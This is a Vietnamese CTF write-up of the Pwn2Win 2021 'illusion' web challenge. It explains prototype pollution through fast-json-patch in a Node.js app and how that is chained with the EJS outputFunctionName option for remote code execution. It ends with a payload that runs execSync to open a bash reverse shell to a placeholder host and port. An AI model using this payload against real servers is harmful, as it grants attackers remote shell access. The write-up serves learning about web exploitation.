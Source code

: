 ```yaml
---
title: "[WRITEUP PWN2WINCTF 2021]: WEB"
categories: CTF
toc: true
---
```


<h1>illusion</h1>
- Source: [illusion](https://github.com/DauHoangTai/CTF/tree/master/2021/Pwn2win/illusion)

### Overview:
- Trang web chỉ hiện thị các service nào đang online và offline nhưng ở đây tất cả đều online. Cấu trúc của folder chứa challenge mà author cung cấp thì chúng ta thấy có file `flag.txt` và `readflag` nhưng nó không được gọi ra ở bất kì đâu => có lẽ phải RCE để thực thi file `readflag`.

### Analysis Source:
- Nhìn vào source thì thấy có 1 endpoint `change_status` là có thể khai thác. 
![image](https://user-images.githubusercontent.com/54855855/121309532-7c888d80-c92c-11eb-8687-73a2225375f0.png)
Ở đoạn code này chương trình nhận input của người dùng thông qua method post sau đó kiểm tra tham số người dùng truyền vào nếu như `service=='status'` thì return về 400, nếu không thì sẽ push vào array path (option ở đây là repace nên sẽ thay thế value của tham số đó luôn chứ không phải thêm vào). Cuối cùng nó sẽ thay đổi các giá trị trong mảng của services (được khai báo ban đầu) bằng các giá trị ở trong mảng pacth và return về sercives đó.
- Ở endpoint `/` thì thấy được nó lấy mảng servirces để render qua file `index.js` mà không hề được lọc đầu vào cùa người dùng.
- File `index.ejs` thì sẽ in ra các value của services.
=> chúng ta có thể dựa vào cách nó in ra thẳng input của người dùng mà không xử lí đầu vào => prototype pollution attack.

### Solution:
- Ở bài này chúng ta không thể gọi prototype như bình thường vì nó bị chặn. Sau khi tìm kiếm thì phát hiện ở thư viện ` fast-json-patch` gần đây có thể tấn công prototype pollution
link: https://github.com/418sec/huntr/pull/768
- Sử dụng nó kèm theo hàm `outputFunctionName` ở trong node js có thể rce
Vậy bây giờ ta chỉ cần sử dụng nó và RCE để lấy flag.

### Payload:
```js
constructor/prototype/outputFunctionName='x; return return global.process.mainModule.constructor._load("child_process").execSync(bash -c "bash -i >& /dev/tcp/host/port 0>&1");'
```
